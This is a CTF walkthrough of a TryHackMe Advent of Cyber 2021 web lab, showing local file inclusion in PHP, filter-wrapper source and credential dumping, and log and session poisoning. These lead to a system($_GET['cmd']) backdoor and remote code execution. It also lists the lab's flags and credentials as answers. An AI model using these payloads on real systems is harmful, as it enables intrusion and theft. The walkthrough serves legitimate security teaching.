# TryHackMe - Advent of Cyber 2021 - Day 6
## Patch Management is Hard (Web-Exploitation)
> Edward Hartmann
> December 22-24, 2021

***<u>Refs/Links:</u>***
- [Advent of Cyber 2021 TOC](Advent%20of%20Cyber%20Table%20of%20Contents.md)  
-  Tags[^1]
-  Answers[^2]


[^1]: #lfi #logpoisoning #php #session #rce
[^2]: *Entry Point*: `err`
					*Flag 1*: `THM{d29e08941cf7fe41df55f1a7da6c4c06} `
					*Flag 2*: `THM{791d43d46018a0d89361dbf60d5d9eb8}`
					*Credentials.php:* `McSkidy:A0C315Aw3s0m`
					*Flag 3*: `THM{552f313b52e3c3dbf5257d8c6db7f6f1}`
					*Server Hostname*: `lfi-aoc-awesome-59aedca683fff9261263bb084880c965`


## TOC
- [Question 1](#Question-1)
- [Question 2](#Question-2)
- [Question 3](#Question-3)
- [Question 4](#Question-4)
- [Question 5](#Question-5)
- [Question 6](#Question-6)
- [Bonus](#Bonus)
- [Interactive Shell](#Interactive%20Shell)

## Walkthrough

### Setup
We are going to set up this box a little differently. The reason is, the URL we are given is awkward and this box requires a lot of URL manipulation. If you have never modified the `/etc/hosts` file before, you will learn how now. 

You can "map" custom URL/IP address combinations on the `/etc/hosts` file any time you want. For example. I could tie `www.Il0veh4ck1ng.com` to the IP address of `www.TryHackMe.com` in my `hosts` file and my system will know to send me to TryHackMe when I type `www.il0veh4ck1ng.com` into the browser. This is because the system uses `/etc/hosts` before any other `DNS` query. 

Type `sudo nano /etc/hosts` to edit the file. On the first available line, type the IP address of your TryHackMe target, followed by a tab, then a domain name of your choosing. See below for an example. 



Test with a ping or by going to the domain. 


### Question-1
[Top](#TOC)
In this scenario, we have a website vulnerable to [Local File Inclusion (LFI)](../../../../Knowledge%20Base/Vulnerabilities/Local%20File%20Inclusion%20(LFI).md) that is running `PHP` on the backend. How do we know it is `PHP`? When we first access the URL provided, the browser gives it away by showing us an error on the page `index.php`. We also know it is using `err` as a query parameter, and that `error.txt` is present in the current working directory. 

> `err` is the "entry point" for this **LFI**



### Question-2
[Top](#TOC)
Attempting to replace the current file `error.txt` with something of our own produces a very verbose error. 



We substitute a file query `notafile.txt` and we got a nice error. We now know a few things:
- It uses the `PHP` function `include` in the code. 
- The path for `include` is `./usr/lib/php5.2/lib/php` in `/var/www/html/index.php`.

So what can we do with this information? 

As we are limited to the tools at hand for **LFI**, `PHP` is the vehicle we will use. The first thing we are asked to try is a **PHP Filter** wrapper. Let's give it a go with the command `php://filter/resources=/etc/passwd`

More on `PHP` wrappers here &mdash; [PHP Documentation - Wrappers](https://www.php.net/manual/en/wrappers.php.php) 


Ironically, this `PHP` function is not required. All we needed was some [Path Traversal](../../../../Knowledge%20Base/Vulnerabilities/Path%20Traversal.md) to make this work as well. Knowing we are in the `/var/www/html` directory, let's swap `error.txt` with `../../../etc/passwd` and see if that works as well. 

`https://aoc6.com/index.php?err=../../../etc/passwd`


Same thing. Moving on...

We are asked to get the `/etc/flag` file using **LFI**. Submit a similar request as`/etc/passwd` to get this file, either with the filter or path traversal. 


### Question-3
[Top](#TOC)
We are then asked to find the flag within the source code of `index.php` attempting to read this, in the same manner, which produces an error. This is because the file we are trying to read *is* code and the web page will try to execute it rather than display it. 


The `/etc/flag` file was just text, not wrapped in `PHP` code, so we did not need to apply any additional functions with `filter`. If you want to read the actual source code, you'll need to encode it, otherwise, the server will produce either run the code or produce the error attempting to run the code. This is where arguments added to the `php://filter` command come in. 

<u>**Two of the options for this scenario:**</u>
- `http://aoc6.com/index.php?err=php://filter/read=string.rot13/resource=index.php`
	- Prints to screen &mdash; `Jrypbzr Guvf freire unf frafvgvir vasbezngvba. Abgr Nyy npgvbaf gb guvf freire ner ybttrq va!``
- `http://aoc6.com/index.php?err=php://filter/convert.base64-encode/resource=index.php`
	- Prints to screen &mdash; `PD9waHAgc2Vzc2lvbl9zdGFydCgpOwokZmxhZyA9ICJUSE17NzkxZDQzZDQ2MDE4YTBkODkzNjFkYmY2MGQ1ZDllYjh9IjsKaW5jbHVkZSgiLi9pbmNsdWRlcy9jcmVkcy5waHAiKTsKaWYoJF9TRVNTSU9OWyd1c2VybmFtZSddID09PSAkVVNFUil7ICAgICAgICAgICAgICAgICAgICAgICAgCgloZWFkZXIoICdMb2NhdGlvbjogbWFuYWdlLnBocCcgKTsKCWRpZSgpOwp9IGVsc2UgewoJJGxhYk51bSA9ICIiOwogIHJlcXVpcmUgIi4vaW5jbHVkZXMvaGVhZGVyLnBocCI7Cj8+CjxkaXYgY2xhc3M9InJvdyI+CiAgPGRpdiBjbGFzcz0iY29sLWxnLTEyIj4KICA8L2Rpdj4KICA8ZGl2IGNsYXNzPSJjb2wtbGctOCBjb2wtb2Zmc2V0LTEiPgogICAgICA8P3BocCBpZiAoaXNzZXQoJGVycm9yKSkgeyA/PgogICAgICAgICAgPHNwYW4gY2xhc3M9InRleHQgdGV4dC1kYW5nZXIiPjxiPjw/cGhwIGVjaG8gJGVycm9yOyA/PjwvYj48L3NwYW4+CiAgICAgIDw/cGhwIH0KCj8+CiA8cD5XZWxjb21lIDw/cGhwIGVjaG8gZ2V0VXNlck5hbWUoKTsgPz48L3A+Cgk8ZGl2IGNsYXNzPSJhbGVydCBhbGVydC1kYW5nZXIiIHJvbGU9ImFsZXJ0Ij5UaGlzIHNlcnZlciBoYXMgc2Vuc2l0aXZlIGluZm9ybWF0aW9uLiBOb3RlIEFsbCBhY3Rpb25zIHRvIHRoaXMgc2VydmVyIGFyZSBsb2dnZWQgaW4hPC9kaXY+IAoJPC9kaXY+Cjw/cGhwIGlmKCRlcnJJbmNsdWRlKXsgaW5jbHVkZSgkX0dFVFsnZXJyJ10pO30gPz4KPC9kaXY+Cgo8P3BocAp9Cj8+`

Here is an example using `filter/read=string.rot13`



The `rot13` string simply reproduces the standard message on the screen. Using [CyberChef](https://gchq.github.io/CyberChef/) we can decode the `base64` [encoded](../../../../Knowledge%20Base/Concepts/General/Encoding%20and%20Decoding.md) string. 

> You can decode in many tools, including Zap, Burp, and even on the command line with the `base64 --decode` command. 




> You can even paste in **encoded** `PHP` code and use a wrapper to decode it on the web page, possible leading to [Remote Code Execution](../../../../Knowledge%20Base/Vulnerabilities/Remote%20Code%20Execution.md) using a piece of code like `page.php?file=data://text/plain;base64,SSBhbSBhbiBSQ0UK==`

### Question-4
[Top](#TOC)

Next, we are told McSkidy lost his password. If you look again at the decoded `index.php` file from earlier, you can see a line under the flag that hints at a credentials file:

`include("./includes/creds.php");`



A well-coded web page will not allow us to browse there, but we may be able to access it through a `PHP` **LFI**. Let's try and render this in the same way as we did with the `index.php` file. We'll use the `base64` version of the filter command. 

`php://filter/convert.base64-encode/resource=./includes/creds.php`



Viola! We have `base64` encoded credentials. Running this on the CLI returns some good information. 


### Question-5
[Top](#TOC)

Heading back to the *Home* page and logging in with McSkidy's credentials, we are given the final flag for the box when we attempt to reset his credentials. 



### Question-6
[Top](#TOC)

For the last task, we are asked to retrieve the hostname of the webserver. To help, we are given the location of web app logs all reminded that the application logs all user requests, and only those that are authorized can read the log file. To get the hostname, we need to combine **LFI** with an **RCE** to access the log files page. The location of the log file is `./includes/logs/app_access.log`. 

In the case of log files, this is called [log poisoning](../../../../Knowledge%20Base/Vulnerabilities/Log%20Poisoning.md), a technique used to gain **RCE** on a web server by injecting a malicious payload into a log then accessing that log file to run the payload. 

> See the link for more details

First, let's confirm access to the log file with **LFI**. We can do this via *McSkidy's* login page, [Path Traversal](../../../../Knowledge%20Base/Vulnerabilities/Path%20Traversal.md) or the **PHP Filter** from before, modified with the location of the logs. 

##### McSkidy's Log Access
Log in as *McSkidy* and head to the log page. 



Log out and try the other two. 

##### Path Traversal
`http://aoc6.com/index.php?err=../../../../../var/www/html/includes/logs/app_access.log`



##### PHP Filter Wrapper
`http://aoc6.com/index.php?err=php://filter/resource=./includes/logs/app_access.log`



First, note that the format of the log file  &mdash; `user:ip:USER-Agent:Page`. **This is important**. We need to know what the log file is capturing. We can control certain aspects of our interaction with the server, and anything we can customize is to our advantage.

With that settled let's try some log manipulation. Let's see what happens if we use [log poisoning](../../../../Knowledge%20Base/Vulnerabilities/Log%20Poisoning.md) to send a custom `curl` request with a modified `User-Agent` field to the server. Login again as *McSkidy* (his logs are easy to read on the log access page). Reset the logs, then run a command like the following with whatever text you choose.

> Remember that I changed the IP TryHackMe gave me to `www.aoc6.com`

`curl -A "Some kind of text" aoc6.com/index.php`

A successful curl request will return the page you requested, `index.php` in this case. Hopefully, it captured the log as well. Check the logs. 



Log poisoning proof of concept is successful!

> In the best scenario, this is for testing or retrieving data. In our scenario, it is for malicious code. `curl` has a bit of a learning code, but it allows you to entirely customize an `HTTP` request. 

Now, let's see what happens when we send some `PHP` code to the server. Ideally, it will render on the **server-side** and display that code on the **client-side**. This is where, as a developer, you need *excellent* [user input](../../../../Knowledge%20Base/Concepts/Web/User-Supplied%20Input.md) validation, and not just on input fields, but on anything the user can control.

Do another curl command, but include the code below in place of text. 

`curl -A "<?PHP phpinfo()?>" aoc6.com/index.php`

Check the logs again by refreshing the page. 



So, where's the code? Notice two things. First, we have the `User-Agent` field from our first test log in the first red box. Next to the arrow, where our second test log's `User-Agent` should be is nothing. **This is great news**. This means that on the **server-side** our code was executed, but it was not displayed on the **client-side**. 

***This is a successful RCE on the remote server***. But how do we view the code? Let's escape the typical user interface and access the log file directly via either the [Path Traversal](#Path%20Traversal) or [PHP Filter Wrapper](#PHP%20Filter%20Wrapper) method. First, log out, the session we have as *McSkidy* will prevent our **LFI**. 



There's our code! Use a <kbd>ctrl</kbd>+<kbd>f</kbd> to find the `hostname` field to answer the 6th question. 



That's it! All that is left is the bonus or attempt to exploit the box further and get a shell on the box. 

***Congratulations on completing this box!***  

See you at the next one &mdash; [Advent of Cyber 3 Day 7](Day%2007%20-%20Advent%20of%20Cyber%202021.md)

### Bonus
[Top](#TOC)

As a bonus quesiton, we are asked if we can access the current [Sessions](../../../../Knowledge%20Base/Concepts/Web/Sessions.md) using **LFI** and achieve **RCE** by poisoning the *session* that corresponds with our browser. This is another form of [log poisoning](../../../../Knowledge%20Base/Vulnerabilities/Log%20Poisoning.md) and **RCE**. 

To start with, we are told where the sessions are stored on this browser &mdash; in the `/tmp` folder. This helps, as we would likely have to enumerate this on our own otherwise. 

To view your current session, you need to see the browser's developer tools and locate the `PHPSESSID`. Mine is below. 



When ready, enter the username `<?php phpinfo();?>` with some password and hit enter. Of course, this is not a username, so no authentication, but we have submitted our code. 



Next, use any of the **LFI** techniques, such as [path traversal](../../../../Knowledge%20Base/Vulnerabilities/Path%20Traversal.md), to access our current session in `/tmp`. My **LFI** is `http://aoc6.com/index.php?err=../../../../../tmp/sess_oikujh0aqooipcrt10e6e89at3`. 

And here we find our `PHP` code executed. 



Well done! 

#### Interactive Shell
[Top](#TOC)

Jumping in right where we tested the `phpinfo()?` code in [Question-6](#Question-6), we are going to build on the malicious `User-Agent` poisoning to see if we can get full, on demand [RCE](../../../../Knowledge%20Base/Vulnerabilities/Remote%20Code%20Execution.md) via the web browser on the server. 

This will happen in stages. First, we want to ensure the backdoor will work. Start with some more `PHP` code we can try and find on the server. Run the following command to test how the system renders more `PHP` code on the log files. 

> You may want to clear the logs again for a fresh start. 

`curl -A "<?php echo 'n0_ware on your server    ';system(\$_GET['cmd']);?>" aoc6.com/index.php`

To break this down....
- `echo` will tell the system to print some random value to know that we have code execution
- `;` is a delimiter to separate two statements. 
- `system(\$_GET)` is the classic `PHP` backdoor, setting it up to that when we make a `GET` request with a parameter we can get any code execution that we want. We need to escape the `$` with `\` for it to work with `curl`. 
- `['cmd']` is the parameter we want to be executed. It can be anything, as we will tell the server what we to substitute for `cmd` later in the URL parameter we use for **RCE**

> The spaces are intentional

Check the logs to see what happened. 

> Note that for whatever reason, my box was picking up three logs each time I refresh the page, making it a bit hard to find our commands. 




Not only was our text executed, but we got a **good** error. The error tells us blank code failed to execute. This is because we passed a parameter, `['cmd']`, but did not provide a command. In the URL bar and at the very end, add `&cmd=whoami` to provide a command. The backdoor we entered earlier will substitute `whoami` for `cmd`. 



Confirmed, full **RCE**. We have user interaction as `www-data`. You can now run any type of command you want that the server has access to, like `cat /etc/passwd`. 

So how about full compromise? Since we have access to the command line via a browser, we can enumerate the available binaries. I tried `wget`, `nc`, `python3`, `curl`, and finally landed on `python` as a command available to the user `www-data`. Bingo, we can find a reverse shell with `python`. 

